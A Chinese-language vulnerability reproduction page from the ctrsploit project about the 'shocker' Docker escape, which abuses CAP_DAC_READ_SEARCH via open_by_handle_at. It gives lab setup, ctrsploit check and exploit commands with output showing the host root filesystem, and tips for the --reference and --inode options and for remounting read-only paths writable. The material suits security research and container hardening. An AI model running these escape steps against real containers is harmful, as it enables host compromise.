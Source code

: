 ```yaml
---

tags: sploit
author: ssst0n3
spec_version: v0.1.0
version: v0.1.0
changelog:
    - v0.1.0: init

---
```


# docker CAP_DAC_READ_SEARCH(shocker) 逃逸

[edit](https://github.com/ctrsploit/sploit-spec/edit/main/vul/shocker/README.md)

## 1. 漏洞介绍

拥有 CAP_DAC_READ_SEARCH 允许调用 open_by_handle_at 系统调用。该系统调用可以通过 inode number 打开文件系统下的文件。

## 2. 利用场景

利用容器的不安全配置逃逸

## 3. 前提条件

1. 拥有cap_dac_read_search

## 4. 漏洞存在性检查

`ctrsploit checksec shocker`

## 5. 漏洞复现

### 5.1 复现环境

下面以 [ssst0n3/docker_archive:ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11_v0.1.0](https://github.com/ssst0n3/docker_archive/tree/branch_ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11) 作为复现环境。

```
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive
$ git checkout branch_ubuntu-20.04_docker-ce-19.03.15_docker-ce-cli-19.03.15_containerd.io-1.4.3_runc-1.0.0-rc92
$ docker compose -f docker-compose.kvm.yml up -d
$ ssh -p 19315 root@127.0.0.1
root@127.0.0.1's password: root
root@ubuntu:~# docker info
Client:
 Debug Mode: false

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 0
 Server Version: 19.03.15
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Native Overlay Diff: true
 Logging Driver: json-file
 Cgroup Driver: cgroupfs
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local logentries splunk syslog
 Swarm: inactive
 Runtimes: runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 269548fa27e0089a8b8278fc4fc781d7f65a939b
 runc version: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
 init version: fec3683
 Security Options:
  apparmor
  seccomp
   Profile: default
 Kernel Version: 5.4.0-56-generic
 Operating System: Ubuntu 20.04.1 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 2.43GiB
 Name: ubuntu
 ID: 4X4W:QE26:IMGY:UHI5:QPCY:NDI5:KKFJ:YWUO:RNOC:QJKR:OHOQ:TXVR
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Registry: https://index.docker.io/v1/
 Labels:
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false

WARNING: No swap limit support
```

### 5.2 漏洞复现

启动存在不安全配置的容器。

```
root@ubuntu:~# docker run -ti --name poc --cap-add CAP_DAC_READ_SEARCH ubuntu
```

下载 ctrsploit 步骤略，在容器内发起逃逸攻击。

```
root@e33b98bef3c3:/# ctrsploit --colorful checksec shocker
✔  shocker      # Container escape with CAP_DAC_READ_SEARCH, alias shocker, found by Sebastian Krahmer (stealth) in 2014.

root@e33b98bef3c3:/# ./ctrsploit/bin/release/ctrsploit_linux_amd64 exploit shocker
root@8fe1576e6aef:/proc/self/fd/7# ls -lah
ls: cannot access '..': No such file or directory
total 18M
drwxr-xr-x  20 root root 4.0K Mar 25 03:59 .
d?????????   ? ?    ?       ?            ? ..
drwx------   2 root root 4.0K Dec 20 07:38 .cache
lrwxrwxrwx   1 root root    7 Dec 20 07:29 bin -> usr/bin
drwxr-xr-x   4 root root 4.0K Jan 16 07:17 boot
drwxr-xr-x   4 root root 4.0K Dec 20 07:29 dev
drwxr-xr-x 198 root root  12K Jun  7 01:52 etc
drwxr-xr-x   3 root root 4.0K Dec 20 07:41 home
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img -> boot/initrd.img-6.5.0-kali3-amd64
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img.old -> boot/initrd.img-6.5.0-kali3-amd64
...
```

## 6. 高级

### 6.1 `--reference` 

`reference` 参数与 OpenByHandleAt 系统调用的 mountFd 参数相关，该参数给定一个路径，用于在该路径所在的文件系统内打开 inode。

该参数默认为 `/etc/hosts` , 通常由 k8s 或 docker 等容器组件挂载进容器内。

需要通过该参数调整inode所属的文件系统。

例如以下案例， /etc/hosts 挂载自 `/dev/mapper/kubernetes`, 则 `--reference=/etc/hosts` 只能打开该文件系统下的inode。

```
$cat /proc/self/mountinfo |grep host
2297 2235 253:1 /containers/a70add2964af7d0891542a48578359192afcdb920c35260540c6d6da92fb1735/hostname /etc/hostname rw,nodev,noatime - ext4 /dev/mapper/docker rw,data=ordered
2299 2235 253:0 /pods/0255d349-f826-4f52-9e37-fbc65e085fc8/etc-hosts /etc/hosts rw,noatime - ext4 /dev/mapper/kubernetes rw,data=ordered
```

而通常 rootfs 位于类似 /dev/sda1 的文件系统， 则可尝试将指定 `--reference=/home/user/work` 。

```
$cat /proc/self/mountinfo |grep /dev/sd
2291 2235 8:1 / /home/user/work rw,relatime - ext4 /dev/sda1 rw,data=ordered
```

### 6.2 `--inode`

`inode` 参数指定目标文件/目录的 inode number。

* 如果目标是目录，则打开并chdir进入该目录；
* 如果目标不是目录，则显示stat信息，并尝试打开、读取内容。(文件内容如果过长，建议将ctrsploit输出结果重定向)

该参数默认为2 (每个文件系统的根目录的默认inode number)。

### 6.3 Read-only file system

有时成功逃逸到了主机的rootfs，但提示只读文件系统。

```
root@0d792b99e7e0:/proc/self/fd/7# ls
bin  boot  dev  etc  home  initrd.img  lib  lib32  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz
root@0d792b99e7e0:/proc/self/fd/7# touch 1
touch: cannot touch '1': Read-only file system
```

这是因为 `--reference` 指定的文件是只读挂载进容器的。如需要写操作，可以在利用 shocker 漏洞前 `mount -o remount,rw` 重新挂载为 rw。或挑选rw挂载进容器的路径作为 `reference`。